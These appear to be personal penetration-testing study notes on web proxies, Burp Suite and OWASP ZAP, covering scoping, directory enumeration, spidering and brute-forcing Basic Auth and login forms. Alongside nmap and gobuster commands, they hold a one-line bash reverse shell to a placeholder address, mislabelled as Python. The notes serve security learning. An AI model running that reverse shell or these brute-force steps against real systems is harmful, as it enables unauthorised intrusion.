 ![[Pasted image 20241110224615.png]]

### Web Proxy vs Web Proxy Server
![[Pasted image 20241110232331.png]]
![[Pasted image 20241110232756.png]]
![[Pasted image 20241110233158.png]]
![[Pasted image 20241110235020.png]]

# Burp Suite
![[Pasted image 20241111103615.png]]
### Burp Target & Scope
![[Pasted image 20241111122631.png]]
![[Pasted image 20241111122755.png]]

**Site Map**
![[Pasted image 20241111122912.png]]

To get all the subdomains in the Sitemap section we can use something like : 
	![[Pasted image 20241111123915.png]]
	So, we need to add the Host or IP Range according to the given image int our Target Scope Section, enabling the Use Advanced Scope Control Option.



### Burp Suite Intruder
![[Pasted image 20241111154323.png]]
![[Pasted image 20241111154538.png]]

If we want to enumerate directories present in the website we could do the following with the HTTP Header : 
![[Pasted image 20241111235715.png]]
And then add the wordlist as a Simple List as the payload.

### Attacking Basic Auth with Intruder & Encoder
First we need to check what type of service the IP Address is running which can be done by using the command : `nmap -sV -p 80 ip_address`
Now, in order to perform directory enumeration we can use Burp Suite, but to rate limiting factor, we will use a tool like gobuster using that command : `gobuster dir --url http://ipaddress --wordlist /usr/share/wordlists/dirb/common.txt`

The error like 401 on the Apache Server is just like an Authentication Form that we need to bypass is order to extract information or find vulnerabilities
And on getting that request using Interceptor on Burp, we can see that there will be a request with header **Authorization:** 
![[Pasted image 20241119230612.png]]
Now, here we can suspect that it is a Base64 encoded string
We used a Sniper Attack.
Here, we cannot supply directly the username and password, we need to do Payload Processing here, in order to make it of the format - `username:password`


### Burp Suite Repeater
![[Pasted image 20241119231341.png]]

A basic TCP Reverse Shell that works on Python Interpreter : `bash -i >& /dev/tcp/ip_addess/4444 0>&1`


# OWASP ZAP
It is the most popular open source and free standard web proxy and scanner developed in Java.
Features - 
- intercepting requests and responses
- automated web application scanning - passive and active
- we spidering - active spidering
- fully fledged intruder functionality
- extensive collection of add-ons

To install ZAP on Kali, we can get that on the repo itself : `sudo apt-get install zaproxy -y`

### ZAP Context & Scope
First, you need to switch to Protected Mode from Standard Mode.
Right click onto Default Context and add the website to be in-scoped over there.
Then switch on the Bulls-Eye Option to hide all the other websites except the websites in scope.
And if we want that any subdomains need to be in scope too, then we could just add : `*.domain.com `

### Directory Enumeration with OWASP ZAP
To do that we need to - Manual Explore and put the URL to explore and launch the Browser.
Then right click on the Site Folder and Under Attack run the Forced Browser Directory (and Children) Attack on it.
And in the Option go to Forced Browse and change the Concurrent Scanning Threads for faster performance.
And then in the Forced Browse Menu that opened in the bottom of the explorer, put a file for the dictionary.

### Web App Scanning
First do a Service Version Scan using NMAP, to know that which services are running on the given host, using the command : `nmap -F -sV <ip-address>`
Then run the manual scan and start to iterate over to other links checking for different vulnerabilities and stuff.
And we would working on the Login Authentication, then we could include it in the Default Context and then go to Authentication and shift that to Form-based Authentication.
Then we could start the Spider Attack on a given URL. And we could also perform Authenticated Spider by adding the User Credentials if we got any.
In the Alerts tab, we'll get common vulnerabilities present in the web applications.

### Spidering
- Spider is a tool that is used to automatically discover new resources (URLs) on a particular site.
- It begins with a list or URLs to visit, called the seeds, which depends on how the Spider is started.
- The Spider then visits these URLs, it identifies all the hyperlinks in the page and adds them to the list of URLs to visit and the process continues recursively as long as new resources are found.
- This can be used to identify hidden or unknown files, directories or end-points that may not have been visible or identifiable via a directory brute-force attack.

### Attacking HTTP Login Forms
Right click on the Request Body and select Fuzzer to open up the Intruder.
And then we first remove the selected fuzzing points and add the actual one and insert whatever type of content we want to.